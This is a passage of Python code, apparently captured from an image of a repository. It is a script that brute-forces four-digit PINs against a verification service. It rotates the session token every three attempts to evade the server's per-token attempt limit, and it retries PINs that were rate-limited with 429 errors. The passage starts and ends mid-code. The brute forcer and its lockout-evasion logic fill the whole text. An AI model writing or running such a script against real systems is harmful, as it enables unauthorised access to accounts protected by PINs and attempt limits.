 ```python
            else:
                print(f"Error verifying PIN {pin:04d}: {e}")
                return None
    print(f"Max retries reached for PIN {pin:04d}.")
    return None

def process_pin(pin, token, request_start_time, failed_pins):
    """Process a single PIN attempt and check the response."""
    result = verify_pin(pin, token, request_start_time)
    if result is None:
        failed_pins.append(pin)  # Store PIN if max retries reached (429 or 500)
        return False
    if result.get("success"):
        print(f"[SUCCESS] Correct PIN found: {pin:04d}")
        return True
    else:
        print(f"PIN {pin:04d} incorrect. Attempts remaining: {result.get('attemptsRemaining', 'N/A')}")
        return False

def main():
    current_token = INITIAL_TOKEN
    pin_index = 0
    failed_pins = []  # List to store PINs that failed with 429 or 500

    # First pass: Try all PINs
    while pin_index < len(PIN_RANGE):
        # Rotate token at the start and after every 3 attempts
        new_token = rotate_token(current_token)
        if not new_token:
            print("Failed to rotate token. Exiting.")
            break
        current_token = new_token
        print(f"Rotated token: {current_token[:20]}...")

        # Process exactly 3 PINs per token
        batch_size = min(ATTEMPTS_PER_TOKEN, len(PIN_RANGE) - pin_index)
        batch = PIN_RANGE[pin_index:pin_index + batch_size]

        for pin in batch:
            request_start_time = time.time()
            success = process_pin(pin, current_token, request_start_time, failed_pins)
            if success:
                return  # Exit if correct PIN is found

        pin_index += batch_size

    # If no PIN was found, retry failed PINs
    if failed_pins:
        print(f"Retrying {len(failed_pins)} PINs that failed with 429 or 500 errors...")
        current_token = rotate_token(current_token)  # Rotate token before retrying
        if not current_token:
            print("Failed to rotate token for retries. Exiting.")
            return

        failed_index = 0
        while failed_index < len(failed_pins):
            new_token = rotate_token(current_token) if failed_index % ATTEMPTS_PER_TOKEN == 0 else current_token
            if not new_token:
                print("Failed to rotate token. Exiting.")
                break
            current_token = new_token
```